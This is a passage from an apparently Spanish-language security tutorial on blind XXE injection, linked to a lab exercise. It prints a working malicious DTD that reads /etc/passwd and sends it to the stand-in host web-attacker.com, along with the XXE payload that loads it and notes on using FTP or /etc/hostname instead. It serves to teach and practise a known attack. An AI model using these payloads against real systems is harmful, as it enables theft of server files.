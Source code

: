 Un ejemplo de un `DTD malicioso` para `exfiltrar` el `contenido` del archivo `/etc/passwd` es el siguiente:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Este `DTD` realiza los siguientes pasos:

1. Define una `entidad de parámetro XML` llamada `file`, que contiene el `contenido del archivo /etc/passwd`
    
2. Define una `entidad de parámetro` llamada `eval`, que contiene una `declaración dinámica` de otra `entidad de parámetro` llamada `exfiltrate`. La `entidad exfiltrate` será `evaluada` mediante una `petición HTTP` al `servidor web del atacante`, incluyendo el `valor de la entidad file` dentro de la `cadena de consulta URL`
    
3. Usa la `entidad eval`, lo que provoca que la `declaración dinámica` de la `entidad exfiltrate` se `ejecute`
    
4. Usa la `entidad exfiltrate`, de modo que su `valor` se `evalúe` realizando la `petición HTTP` a la `URL especificada`

El `atacante` debe alojar el `DTD malicioso` en un `sistema que controle`, normalmente cargándolo en su propio `servidor web`. Por ejemplo:

```
http://web-attacker.com/malicious.dtd
```

Finalmente, el `atacante` debe enviar el siguiente `payload XXE` a la `aplicación vulnerable`:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

Este `payload XXE` declara una `entidad de parámetro` llamada `xxe` y luego `usa la entidad` dentro del `DTD`. Esto hará que el `parser XML recupere el DTD externo` desde el `servidor del atacante` y lo `interprete`. Los `pasos definidos` dentro del `DTD malicioso` se `ejecutan` y el archivo `/etc/passwd` es `transmitido` al `servidor del atacante`

Esta `técnica` podría no funcionar con algunos `contenidos del archivo`, incluyendo los `saltos de línea (\n)` que contiene el archivo `/etc/passwd`. Esto se debe a que algunos `parsers XML` obtienen la `URL` de la `definición de la entidad externa` usando una `API` que `valida los caracteres` permitidos en la `URL`

En esta situación, podría ser posible usar el `protocolo FTP` en lugar de `HTTP`. A veces, no será posible `exfiltrar datos` que contengan `satlos de línea (\n)`, por lo que se puede apuntar a un `archivo` más simple, como el `/etc/hostname`

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- Exploiting blind XXE to exfiltrate data using a malicious external DTD - [https://justice-reaper.github.io/posts/XXE-Injection-Lab-5/](https://justice-reaper.github.io/posts/XXE-Injection-Lab-5/)
